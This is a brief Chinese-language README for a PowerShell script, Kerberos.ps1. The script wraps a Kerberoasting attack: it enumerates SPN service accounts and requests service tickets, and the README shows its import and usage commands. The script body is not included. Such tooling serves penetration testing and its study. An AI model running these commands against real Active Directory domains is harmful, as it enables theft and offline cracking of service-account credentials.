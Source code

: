 # Kerberos.ps1

该脚本是简单封装的Kerberostring利用脚本，即获取SPN服务账户和获取请求票据的操作

```
Import-Module .\kerberos.ps1
```

```
# 获取SPN服务账户
Frail-Spns
# 请求服务票据TGS
Inject-Ticket kadmin/changepw

```





